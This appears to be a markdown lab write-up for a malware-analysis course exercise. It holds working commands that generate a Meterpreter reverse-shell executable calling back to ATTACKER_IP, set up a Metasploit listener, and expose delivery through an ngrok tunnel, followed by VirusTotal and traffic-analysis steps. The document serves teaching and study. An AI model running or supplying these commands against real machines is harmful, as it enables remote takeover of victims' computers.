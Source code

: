 # Malware Payload Analysis (Week 8)

## Objective
Generate a reverse shell payload, deliver via Apache + ngrok tunnel, analyze with VirusTotal, monitor with TCPView/Wireshark, and document IOCs.

## Payload Generation
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o /var/www/html/evil.exe
```

## Listener
```bash
msfconsole -q
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT 4444
run
```

## Delivery via ngrok
```bash
# Install ngrok and authenticate, then:
ngrok http 80
# or for raw TCP: ngrok tcp 4444
```

## Analysis
- Upload `evil.exe` to VirusTotal (do NOT upload real client samples).
- On victim VM: use TCPView to observe connections.
- Capture traffic with Wireshark.

## Deliverables
- VT results, PCAP snippets, persistence/IoCs list, and mitigation steps.

